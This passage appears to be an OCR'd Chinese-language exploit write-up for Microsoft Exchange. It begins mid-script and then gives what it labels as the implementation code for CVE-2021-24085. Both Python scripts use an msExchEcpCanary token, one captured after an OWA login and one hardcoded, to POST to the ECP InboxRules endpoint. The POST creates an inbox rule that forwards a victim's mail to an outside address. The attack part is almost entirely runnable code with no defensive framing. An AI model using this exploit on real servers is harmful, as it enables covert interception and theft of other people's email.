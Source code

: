 ```
    print("    msExchEcpCanary:" + msExchEcpCanary)
    return session,msExchEcpCanary

def test():
    url = "192.168.1.1"
    user = "test1"
    password = "Password123"
    session,msExchEcpCanary = LoginOWA(url, user, password)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"
    }

    p = {
            "msExchEcpCanary": msExchEcpCanary
        }
    d = {"properties":{"ForwardTo":[{"RawIdentity":"test2@test.com","DisplayName":"test2","Address":"test2@test.com","AddressOrigin":0,"galContactGuid":"2cc82f35-2a13-449c-ab48-3843a7f2b615","RecipientFlag":0,"RoutingType":"SMTP","SMTPAddress":"test2@test.com"}],"Name":"1","StopProcessingRules":"true"}}

    url3 = "https://" + url + "/ecp/RulesEditor/InboxRules.svc/NewObject"
    response = session.post(url3, headers=headers, params=p, json=d, verify = False)
    print(response.text)
    
if __name__ == '__main__':
    test()
```

CVE-2021-24085的实现代码：

```
#!python3
import requests
import sys
import warnings
import urllib.parse
warnings.filterwarnings("ignore")

def test():
    url = "192.168.1.1"
    msExchEcpCanary = "P7btz10TmkSS6_-vY8gG2uAKFEimJNkItU-6jJR0jbZcA7rCcR0O5CYxhyrW5kI6oeKC-sUM3Vw."
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"
    }

    p = {
            "msExchEcpCanary": msExchEcpCanary
        }
    d = {"properties":{"ForwardTo":[{"RawIdentity":"test2@test.com","DisplayName":"test2","Address":"test2@test.com","AddressOrigin":0,"galContactGuid":"2cc82f35-2a13-449c-ab48-3843a7f2b615","RecipientFlag":0,"RoutingType":"SMTP","SMTPAddress":"test2@test.com"}],"Name":"1","StopProcessingRules":"true"}}

    url3 = "https://" + url + "/ecp/RulesEditor/InboxRules.svc/NewObject"
    response = requests.post(url3, headers=headers, params=p, json=d, verify = False)
    print(response.text)
    
if __name__ == '__main__':
    test()
```
